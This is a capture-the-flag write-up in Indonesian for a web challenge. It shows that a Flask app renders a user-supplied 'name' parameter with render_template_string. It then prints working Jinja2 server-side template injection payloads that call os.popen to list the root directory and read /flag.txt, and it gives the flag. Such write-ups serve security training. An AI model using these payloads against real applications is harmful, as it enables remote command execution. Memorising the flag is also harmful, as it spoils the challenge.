 ## Internal

**Difficulty:** Easy

**Author:** maul

**URL:** [http://ctf.noctralupra.space:10306](http://ctf.noctralupra.space:10306)

### Description

jangan di bruteforce!

### Solution

Pada challenge ini diberikan source code sederhana yang menjalankan sebuah halaman utama yang menyediakan halaman selamat datang dan login. 

![alt text](image.png)

Dari kode terlihat bahwa variabel `user_name` berasal langsung dari `request.args.get('name', 'Pengunjung')` dan kemudian dimasukkan ke dalam template HTML lalu dirender menggunakan `render_template_string`.

![alt text](image-1.png)

Langkah berikutnya saya melakukan pengujian sederhana dengan parameter `?name=test` untuk memastikan nilai tersebut muncul di halaman karena pada akses awal tidak ditemukan parameter apapun di welcome page. 

![alt text](image-2.png)

Dari situ saya mencoba payload SSTI `{{7*7}}` pada parameter `name` untuk menguji apakah template akan dievaluasi. Hasilnya payload tersebut dieksekusi dan mengonfirmasi adanya celah SSTI.

Dari sini saya melakukan RCE. Payload yang saya pakai adalah sebagai berikut:

```text
?name={{cycler.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read()}}
```

![alt text](image-3.png)

Dengan payload tersebut, web mengeksekusi perintah `ls /`. Ditemukan file flag.txt dan ubah perintah menjadi `cat flag.txt` untuk membaca flagnya.

```text
?name={{cycler.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read()}}
```

### Flag

NCLPS1{hidd3n_ssti_xd}